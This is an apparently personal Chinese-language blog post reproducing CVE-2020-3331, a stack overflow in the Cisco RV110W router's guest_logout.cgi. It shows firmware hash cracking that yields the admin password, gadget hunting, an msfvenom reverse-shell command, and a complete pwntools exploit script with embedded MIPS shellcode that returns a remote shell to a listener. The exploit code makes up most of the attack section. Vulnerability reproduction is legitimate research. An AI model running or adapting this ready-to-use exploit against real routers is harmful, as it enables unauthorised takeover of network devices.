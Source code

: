 ```yaml
---
title: 路由器 RV110W CVE-2020-3331 漏洞复现
date: 2024-03-11 16:33:55
tags: [IOT, 路由器， Pwn]
categories: [技术]
excerpt: "IOT Reboot!"
thumbnail: "https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_cisco.jpg"
---
```


某天发现实验室里有这个路由器，是学长留下的，那这不日日都说不过去了吧

参考：

[思科路由器 RV110W CVE-2020-3331 漏洞复现](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

### Start

首先可以拿到该设备的固件，解包固件可以找到 `/etc/shadow` 里面存的 admin 用户的密码 hash

`/sbin/rc` :

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_rc.png)

使用 hashcat 可以对该 hash 进行爆破，需要事先准备一份弱密码字典，最后爆出来 密码是 `Admin123` 。有了密码，就能直接通过 telnet 远程连上路由，这样有 shell 比较方便复现漏洞

搜索 `login.cgi` 路由，以确定 web 服务器程序是哪一个

```bash
grep -rn "login.cgi" * 2>/dev/null
# 递归搜索关键字，并将stderr重定向到null
# '*' 表示搜索所有文件
# r 表示递归，n 表示显示行号
```

最终确定是 `/sbin/httpd`

分析 `/sbin/httpd` 程序中的 `guest_logout_cgi()` ，发现危险函数 `sscanf()`

```c
  v5 = (const char *)get_cgi("cmac");
  v7 = get_cgi("cip");
  v6 = (const char *)get_cgi("cip");
  for ( j = (char *)(v7 + strlen(v6) - 1); get_cgi("cip") < (unsigned int)j; *j-- = 0 )
  {
    v9 = *j;
    if ( v9 != 10 && v9 != 13 && v9 != 32 )
      break;
  }
  v10 = (const char *)get_cgi("cip");
  v11 = (const char *)get_cgi("submit_button");
  if ( !v11 )
    v11 = "";
  if ( v5 && v10 )
  {
    memset(v29, 0, 0x40u);
    memset(v28, 0, sizeof(v28));
    v12 = fopen("/dev/console", "w");
    v13 = v12;
    if ( v12 )
    {
      fprintf(v12, "\n  mac=[%s], ip=[%s], submit_button=[%s]\n", v5, v10, v11);
      fclose(v13);
    }
    if ( VERIFY_MAC_17(v5) && VERIFY_IPv4(v10) ) //MAC 和 IP 有效
    {
      if ( !strstr(v11, "status_guestnet.asp") ) //submit_button 包含 status_guestnet.asp
        goto LABEL_31;
      sscanf(v11, "%[^;];%*[^=]=%[^\n]", v29, v28);  
```

这个 `sscanf` 是在从`v11`正则匹配存到 `v29` `v28` ，存在栈溢出漏洞

匹配规则：`%`表示要，`%*`表示不要

- `%[^;]` 分号前面的所有字符都要，存在 `v29`
- `;%*[^=]` 分号后等号前所有的东西都不要
- `=%[^\n]` 等号后所有东西都要，存在 `v28`

比如 `aaa;bbb=ccc` 就是`aaa`和`ccc`被提取出

其实这个匹配不重要，此时 v11 就是 `submit_button=` 后面的值

故分析程序路径要到达这个 sscanf 得有三个参数且满足对应的要求：

1. cmac：MAC 地址格式
2. cip：IP 地址格式
3. submit_button: 包含 status_guestnet.asp

我们可以传输超长的 submit_button 项来测试是否会溢出，另外两个 cmac 和 cip 都有格式检测，唯有 submit_button 只需要包含字符串 `status_guest.asp` 即可

可以写一个 python 脚本来发包看看：

```py
import requests

url = "https://192.168.1.1/guest_logout.cgi"
payload = {"cmac":"12:af:aa:bb:cc:dd","submit_button":"status_guestnet.asp"+'a'*100,"cip":"192.168.1.100"}
#requests.get(url, data=payload, verify=False, timeout=1)
requests.post(url, data=payload, verify=False, timeout=1)
```

post 上去之后，web 页面就无法访问了，为了得到更多的细节，我们可以传一个 gdbserver 上去远程调试

[https://gitee.com/h4lo1/HatLab_Tools_Library/tree/master/静态编译调试程序/gdbserver](https://gitee.com/h4lo1/HatLab_Tools_Library/tree/master/%E9%9D%99%E6%80%81%E7%BC%96%E8%AF%91%E8%B0%83%E8%AF%95%E7%A8%8B%E5%BA%8F/gdbserver)

```bash
./gdbserver --attach 0.0.0.0:1234 515 # httpd pid
```

经过调试，执行到 `sscanf` 时，v29 会匹配到 `submit_button` 的值，如果后面不加更多参数的话 v28 什么都匹配不到

v29 正好是该函数栈最底端的数据，紧接 fp 和 pc，那么覆盖 pc 将非常容易

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_stack.png)

```bash
pwndbg> distance 0x7fcc839c 0x7fcc8404
0x7fcc839c->0x7fcc8404 is 0x68 bytes (0x1a words)
# len("status_guestnet.asp") == 19
# 0x68-19 = 85
```

所以填充长度为85

```python
payload = b"status_guestnet.asp"+b'a'*85+p32(pc)
```

mips 没有 nx ，所以可以 shellcode in stack

如下图，函数退出时，这些寄存器都可以自由控制

![](https://testingcf.jsdelivr.net/gh/hexrotor/hexrotor.github.io/images/post_imgs/RV110W_ida.png)

首先得找到合适的 gadget, 把栈地址给寄存器，然后再跳到寄存器

不能使用程序本身的 gadget，因为程序的地址有`\x00` ，发过去就截断了，所以考虑使用 libc

经过调试发现 libc 的地址是固定的，并没有随机化，固定为 0x2af98000，可以在 libc 中查找 gadget

```bash
# stackfind 表示查找给寄存器赋栈地址值的 gadget,同时使用 move $t9 过滤跳转寄存器指令
ROPgadget --binary libc.so --mipsrop "stackfinder"|grep 'move $t9'
#0x002CBFC # la      $a0, _stdio_openlist_add_lock ; move    $t9, $s1 ; jalr    $t9 ; addiu   $a0, $sp, 0x28
# 该 gadget 将 sp+0x28 赋给a0，然后跳转到 s1,注意这里向前提了一条是防止地址有\x00
ROPgadget --binary libc.so |grep 'move $t9, $a0'
#0x0003d050 : move $t9, $a0 ; sw $v0, 0x18($sp) ; jalr $t9 ; addiu $a0, $sp, 0x18
# 跳转到栈地址
```

至于控制各寄存器的栈偏移位置可以用 `cyclic()` `cyclic_find()`测算

shellcode 的功能是反弹shell，所以开一个端口进行监听，shellcode 可以用[这个](http://shell-storm.org/shellcode/files/shellcode-860.php)，也可以用 msf 生成，我选择用 msf

```bash
msfvenom -p linux/mipsle/shell_reverse_tcp  LHOST=10.10.10.100 LPORT=31337 --arch mipsle --platform linux -f py -o shellcode.py
```

### exp

```python
from pwn import *
import thread,requests
context(arch='mips',endian='little',os='linux')
io     = listen(31337)
libc   = 0x2af98000

jmp_s0 = libc + 0x002CBFC # la      $a0, _stdio_openlist_add_lock ; move    $t9, $s1 ; jalr    $t9 ; addiu   $a0, $sp, 0x28
jmp_a0 = libc + 0x0003D050 # move $t9, $a0 ; sw $v0, 0x18($sp) ; jalr $t9

shellcode = b"\xff\xff\x04\x28\xa6\x0f\x02\x24\x0c\x09\x09\x01\x11\x11\x04\x28"
shellcode += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += b"\xa6\x0f\x02\x24\x0c\x09\x09\x01\xfd\xff\x0c\x24\x27\x20\x80\x01"
shellcode += b"\x27\x28\x80\x01\xff\xff\x06\x28\x57\x10\x02\x24\x0c\x09\x09\x01"
shellcode += b"\xff\xff\x44\x30\xc9\x0f\x02\x24\x0c\x09\x09\x01\xc9\x0f\x02\x24"
shellcode += b"\x0c\x09\x09\x01\x79\x69\x05\x3c\x01\xff\xa5\x34\x01\x01\xa5\x20"
shellcode += b"\xf8\xff\xa5\xaf\x0a\x64\x05\x3c\x0a\x0a\xa5\x34\xfc\xff\xa5\xaf"
shellcode += b"\xf8\xff\xa5\x23\xef\xff\x0c\x24\x27\x30\x80\x01\x4a\x10\x02\x24"
shellcode += b"\x0c\x09\x09\x01\x62\x69\x08\x3c\x2f\x2f\x08\x35\xec\xff\xa8\xaf"
shellcode += b"\x73\x68\x08\x3c\x6e\x2f\x08\x35\xf0\xff\xa8\xaf\xff\xff\x07\x28"
shellcode += b"\xf4\xff\xa7\xaf\xfc\xff\xa7\xaf\xec\xff\xa4\x23\xec\xff\xa8\x23"
shellcode += b"\xf8\xff\xa8\xaf\xf8\xff\xa5\x23\xec\xff\xbd\x27\xff\xff\x06\x28"
shellcode += b"\xab\x0f\x02\x24\x0c\x09\x09\x01"

# offset for s0: 49
#s1: 53
#s2: 57

payload = b"status_guestnet.asp" +b'a'*49+p32(jmp_a0)+32*b'a'+p32(jmp_s0)+0x28*b'a'+shellcode
#payload += cyclic(100)
paramsPost = {"cmac":"12:af:aa:bb:cc:dd","submit_button":payload,"cip":"10.10.10.100"}

def attack():
    try: requests.post("https://10.10.10.1/guest_logout.cgi", data=paramsPost, verify=False,timeout=1)
    except: pass

thread.Thread(attack,()).run()
io.wait_for_connection()
log.success("getshell")
io.interactive()

# reg 0x0431B58
#0x431bb0
```

[https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/](https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/)

其实我贴的这个文章中有一个错误，其选择的 libc gadget 0x000257A0 有一个指令为

```nasm
sw     $v0, 0x18($sp)
```

而 `$sp+0x18` 正好是他写 shellcode 的地方，此时 v0 为 0，这个指令会让 shellcode 第一条指令
`slti $a0, $zero, 0xFFFF` 变成 `nop`，导致第一个 syscall：close(stdin) 实际上没有正常执行